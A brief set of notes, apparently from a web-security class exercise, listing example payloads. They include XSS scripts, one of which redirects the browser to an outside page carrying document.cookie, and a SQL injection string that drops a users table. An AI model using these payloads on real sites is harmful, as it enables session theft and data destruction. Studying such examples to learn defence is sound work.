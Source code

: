 # Notes



## XSS examples
<script>alert("hello world");</script>
<script>alert(document.cookie);</script>
<script>window.location = "https://info2180-security-ylynfatt.c9users.io/mybadpage.php?cookie="+document.cookie;</script>

## SQL Injection example
test'; DROP TABLE users;--